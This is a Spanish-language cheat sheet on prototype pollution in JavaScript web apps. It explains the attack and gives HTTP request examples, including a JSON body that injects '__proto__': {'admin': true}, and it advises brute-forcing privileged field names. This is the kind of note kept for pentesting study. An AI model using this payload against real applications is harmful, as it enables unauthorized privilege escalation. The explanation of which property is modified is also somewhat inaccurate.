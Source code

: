 ```yaml
---

### 💥 **Prototype Pollution Cheat Sheet** 💥

---
```


#### 📝 **¿Qué es el Prototype Pollution?**  
El ataque **Prototype Pollution** explota vulnerabilidades en la implementación de objetos en **JavaScript**.  
Permite al atacante **modificar la propiedad `prototype`** de un objeto, lo que puede llevar a:  
- 🚀 **Ejecución de código malicioso.**  
- 🛠️ **Manipulación de datos de la aplicación.**  
- 🔑 **Control de sesiones de usuario.**  

---

### ⚙️ **¿Cómo funciona?**  
1. Los objetos en JavaScript tienen una propiedad llamada `prototype` que define sus métodos y propiedades.  
2. El atacante modifica la propiedad `prototype` de un objeto base, lo que afecta a todas las instancias del objeto.  
3. La aplicación hereda las propiedades manipuladas, lo que puede dar acceso o control no autorizado.  

---

### 📝 **Impacto del Ataque:**  
- 📊 **Compromiso de datos del usuario.**  
- 💥 **Ejecución remota de código.**  
- 🔓 **Escalada de privilegios.**  
- 🕵️ **Dificultad en detección y corrección.**  

---

## 🚀 **Ejemplo de Explotación:**

### 🔧 **Cambio del Content-Type:**

Algunas aplicaciones envían datos en formato URL-encoded:  
```http
Content-Type: application/x-www-form-urlencoded
email=test@test.com&msg=carlos
```

El truco aquí es cambiar el **Content-Type** a JSON:  
```http
Content-Type: application/json
{
    "email": "test@test.com",
    "msg": "probando"
}
```

---

### 🔎 **¿Cómo detectar si funciona?**  
1. Verifica si el servidor interpreta los datos en formato JSON.  
2. Intenta provocar un error de sintaxis (faltante de comillas, llave incorrecta) para ver si la solicitud falla.  
3. Si el servidor **no rompe** o **redirige correctamente**, indica que el formato JSON es aceptado.  

---

### 💥 **Payload de Prototype Pollution:**  
Una vez confirmado el uso de JSON, intenta inyectar el prototipo:  
```http
Content-Type: application/json
{
    "email": "test@test.com",
    "msg": "probando",
    "__proto__": {
        "admin": true
    }
}
```

---

### 🔑 **¿Cómo descubrir el campo vulnerable?**  
- 🔍 **Intuición:** Campos comunes como `admin`, `isAdmin`, `role`, `superuser`, etc.  
- 🦾 **Fuerza Bruta:** Prueba múltiples nombres de campo.  
- 📝 **Filtración del Código Fuente:** Si el código fuente está accesible, busca objetos con privilegios elevados.  

---

💾 **Guarda esta guía en Obsidian para tener siempre a mano tus técnicas de Prototype Pollution!** 🚀